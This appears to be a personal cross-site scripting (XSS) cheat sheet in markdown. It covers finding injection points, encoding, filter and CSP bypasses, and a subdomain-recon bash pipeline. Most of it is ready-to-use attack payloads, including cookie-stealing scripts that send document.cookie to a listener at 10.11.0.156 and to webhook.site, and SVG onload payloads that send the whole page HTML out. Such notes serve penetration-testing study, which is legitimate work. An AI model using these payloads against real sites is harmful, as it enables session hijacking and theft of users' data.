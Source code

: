## Cheat sheet

https://portswigger.net/web-security/cross-site-scripting/cheat-sheet


---

## Recognition

1. Figure out where it goes. Does it get embedded in a tag attribute ? into a string in a script tag ?
2. Figure out any special handling : Do URLs get turned into links ?
3. Figure out how special characters are handled : Try these `1234```'<>:;"'`

- From those 3 steps, you'll know whether or not a givin input is vulnerable to XSS.
r(reflected)XSS are dependent on CSRF vulnerabilities to be exploitable, in the case of POST. If rXSS in GET, you are dependent on CSRF otherwise.

- Example 1 : Testing character, angle brackets ```<>``` are passed through without encoding
and text is shown in a text node of the document. Here a simple ```<script>alert("XSS");</script>``` will work.

- Example 2 : THe input is reflected in a tag attribute. You have to break out of the attribute, but in most cases you don't need to leave the tag; meaning no need for angle brackets.

--- 

## Encoding is done using HTML-encoding

- Named : `<` equal `&lt`, `>` equals `&gt;`, `"` equals `&quot;`, `&` equals `&amp;`
- Hex : use `man ascii`, for ex `'` is `0x27` equals `&#x27;`. Same principle for the others.
- Decimal : use `man ascii`, for ex `<` is `60` equals `&#60`, same principle for the others.

---

## Try playing with uppercase and lowercase

---

## Sometimes, it's not filtered recursively :

`https://example.com/test.php?arg=<scr<script>ipt>alert('1')</scr</script>ipt>`

---

## Script word is blocked

- with the `<a` tag and for the following events: `onmouseover` (you will need to pass your mouse over the link), `onmouseout, onmousemove, onclick` ...

- with the `<a` tag directly in the URL: `<a href='javascript:alert(1)'...` (you will need to click the link to trigger the JavaScript code and remember that this won't work since you cannot use script in this example).

- with the `<img` tag directly with the event onerror: `<img src='zzzz' onerror='alert(1)' />`.

- with the `<div` tag and for the following events: `onmouseover` (you will need to pass your mouse over the link), `onmouseout, onmousemove, onclick`...
...

---

## Alert() is blocked

Use console.log or eval and stringfromcharcode

- Encode alert(1) in decimal : 97 108 101 114 116 40 49 41 

---

## Used inside a var

escape from it (generally with a `"`), add `;`, write your code and comment the end with `\\` or add another variable `var $dummy = "`

---

## Don't check just the field box, check also by adding stuff in the url

For example, you found an input field but the characters are encoded. Viewing the page source, and adding stuff at the end of the url, you see that it's reflected in the page source : `/index.php/tezfzefze` is inside the page source. Try to inject your stuff here too !

---

## Short cheat sheet 

```
"><h1>test</h1>"
'+alert(1)+'
"onmouseover="alert(1)
http://"onmouseover="alert(1)
```
If one of these work, you just have to find the good one !

---


## With an iframe , it's possible to get same result but in a stealthier manner :

```<iframe SRC="http://10.11.0.156:81/report" height = “0” width = “0”></iframe>```


---

## Steal the cookies :

```<script>new Image().src="http://10.11.0.156:4441/bogus.php?output="%2Bdocument.cookie;</script>```

```
<script>document.write("<img src='https://webhook.site/ae4ca108-7f0c-4ae2-98d7-e47976330ad1?test="+document.cookie+"'></img>");</script>
```

---

## Check how it is reflected

- Any weird character ? Encoded ? Double encoded ? 


---

## Bypass CSP

- Check the header content-security-policy (burp or dev tools)
- Copy paste the url or the header into https://csp-evaluator.withgoogle.com/
- Don't bother with the warning about object-src, too old thing.


### default-src 

- means that it will only execute javascript from the server. So here, use the javascript at your disposal from the server.

-  To solve it : according to the documentation, the srcdoc attribute overrides the src attribute and specifies the HTML content to show inside the iframe. But most importantly, the iframe with the srcdoc attribute is not cross domain, meaning that the content will be treated as coming from the same domain as the parent-page. 

```<iframe srcdoc="<script src=...></script>"></iframe>```

Example from the intigriti easter xss challenge : ```<iframe srcdoc="<script src=https://challenge.intigriti.io/'-alert(document.domain)-'></script>"></iframe>```

### Resources :
https://lab.wallarm.com/how-to-trick-csp-in-letting-you-run-whatever-you-want-73cb5ff428aa/
https://www.nccgroup.com/us/about-us/newsroom-and-events/blog/2019/april/a-novel-csp-bypass-using-data-uri/


### Simple XSS Check

By @TobiunddasMoe


```
#!/bin/bash
# $1 => example.domain

subfinder -d $1 -o domains_subfinder_$1
amass enum --passive -d $1 -o domains_$1

cat domains_subfinder_$1 | tee -a domain_$1
cat domains_$1 | filter-resolved | tee -a domains_$1.txt

cat domains_$1.txt | ~/go/bin/httprobe -p http:81 -p http:8080 -p https:8443 | waybackurls | kxss | tee xss.txt

```

### Prove impact easily

- ```xsscope```

---

## exfiltrate content without script tag  


use webhook.site, and replace the url inside

```
<svg onload="window.location.href = '//webhook.site/ae4ca108-7f0c-4ae2-98d7-e47976330ad1?c='+btoa(document.documentElement.innerHTML)">
```

Then go on webhook.site and wait for the cookie.

With img : 

```
<svg onload="new Image().src='//example.com/?x='+btoa(document.documentElement.innerHTML)">
```

